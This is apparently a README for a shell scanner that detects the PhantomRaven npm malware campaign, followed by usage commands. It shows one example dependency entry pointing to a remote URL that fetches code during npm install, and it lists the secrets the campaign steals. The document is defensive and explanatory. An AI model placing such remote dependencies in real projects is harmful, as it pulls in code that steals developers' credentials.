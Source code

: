 # PhantomRaven Scanner

Universal npm malware detector for single projects or mass repository scanning.

## 📋 What is PhantomRaven?

PhantomRaven is a sophisticated npm malware campaign with **126 infected packages** and over **86,000 downloads**. It uses **Remote Dynamic Dependencies (RDD)** to hide malicious code from security scanners.

**Attack method:**
```json
{
  "dependencies": {
    "malicious": "http://packages.storeartifact.com/npm/package"
  }
}
```

The malicious code downloads during `npm install` via automatic `preinstall` scripts and steals:
- npm tokens (~/.npmrc)
- GitHub/GitLab credentials
- CI/CD secrets (GitHub Actions, GitLab CI, Jenkins, CircleCI)
- Environment variables and API keys

## 🚀 Quick Start

```bash
# Make executable
chmod +x phantomraven-scan.sh

# Scan current directory
./phantomraven-scan.sh

# Scan specific project
./phantomraven-scan.sh /path/to/project

# Scan 100+ repositories with 8 workers
./phantomraven-scan.sh --batch -w 8 ~/projects

# Generate JSON report
./phantomraven-scan.sh --batch -f json -o report.json ~/workspace
```

## 📖 Usage

### Single Project Mode (Default)

```bash
./phantomraven-scan.sh [OPTIONS] [path]

Options:
  -v, --verbose    Show detailed information
  -h, --help       Show help message
  [path]           Directory to scan (default: current directory)

Examples:
  ./phantomraven-scan.sh
  ./phantomraven-scan.sh /path/to/project
  ./phantomraven-scan.sh -v ~/my-app
```
